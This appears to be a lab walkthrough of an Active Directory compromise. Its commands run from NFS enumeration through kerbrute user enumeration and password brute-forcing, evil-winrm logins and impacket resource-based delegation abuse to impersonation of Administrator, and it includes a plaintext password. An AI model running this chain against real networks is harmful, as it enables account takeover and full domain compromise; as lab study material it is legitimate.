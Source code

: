 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/e9f885fc-46ae-4438-8147-55ddccd9d2bb)

```
nmap -p- 192.168.2.9 -v -sC -sV
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/3f135770-5829-4738-8ae3-21ee2b0d72cb)

```
showmount -e 192.168.2.9
sudo mkdir /mnt/it_stuff
```

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/87e21d95-1046-46f1-a021-7ec017b15afe)

```
sudo mount -t nfs 192.168.2.9:/it_stuff /mnt/it_stuff -o nolock
sudo ls -la /mnt/it_stuff
sudo ls -la /mnt/it_stuff/Scripts
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/edd45ec3-db92-4e59-a9a2-8eb0caac3cd1)

```
./kerbrute_linux_amd64 userenum -d codeby.cdb --dc 192.168.2.9 user.txt
```

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c648b73b-a853-4d2b-959c-5e1d21192ea7)

```
./kerbrute_linux_amd64 bruteuser -d codeby.cdb --dc 192.168.2.9 generated_passwords.txt valentin.badanov
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/11faab34-a8b6-4690-8585-4c3b01ac054f)

```
evil-winrm -i 192.168.2.9 -u 'valentin.badanov' -p 'PASS'
evil-winrm -i 192.168.2.9 -u 'valentin.badanov_adm' -p 'PASS'

impacket-addcomputer -computer-name 'evilcomputer$' -computer-pass ev1lP@sS -dc-ip 192.168.2.9 odeby.cdb/valentin.badanov_adm:'Ya]fBdUJl[/%2zC\GNw' -no-add
python3 rbcd.py -f EVILCOMPUTER -t HELIX -dc-ip 192.168.2.9 codeby.cdb\\valentin.badanov_adm:'Ya]fBdUJl[/%2zC\GNw' 
impacket-getST -spn cifs/FAKE01.codeby.cdb -impersonate Administrator -dc-ip 192.168.2.9 codeby.cdb/EVILCOMPUTER$:ev1lP@sS
```

